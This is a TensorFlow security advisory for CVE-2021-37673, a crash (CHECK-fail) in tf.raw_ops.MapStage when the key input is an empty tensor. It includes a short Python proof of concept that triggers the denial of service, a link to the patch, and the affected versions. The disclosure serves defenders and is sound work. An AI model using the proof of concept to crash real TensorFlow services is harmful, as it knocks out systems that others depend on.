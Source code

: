 ## TFSA-2021-147: `CHECK`-fail in `MapStage`

### CVE Number
CVE-2021-37673

### Impact
An attacker can trigger a denial of service via a `CHECK`-fail in
`tf.raw_ops.MapStage`:

```python
import tensorflow as tf

tf.raw_ops.MapStage(
  key=tf.constant([], shape=[0, 0, 0, 0], dtype=tf.int64),
  indices=tf.constant((0), dtype=tf.int32),
  values=[tf.constant((0), dtype=tf.int32)],
  dtypes=[tf.int32,
  tf.int64],
  capacity=0,
  memory_limit=0,
  container='',
  shared_name='')
```

The
[implementation](https://github.com/galeone/tensorflow/blob/460e000de3a83278fb00b61a16d161b1964f15f4/tensorflow/core/kernels/map_stage_op.cc#L513)
does not check that the `key` input is a valid non-empty tensor.

### Patches
We have patched the issue in GitHub commit
[d7de67733925de196ec8863a33445b73f9562d1d](https://github.com/galeone/tensorflow/commit/d7de67733925de196ec8863a33445b73f9562d1d).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu X-Team.
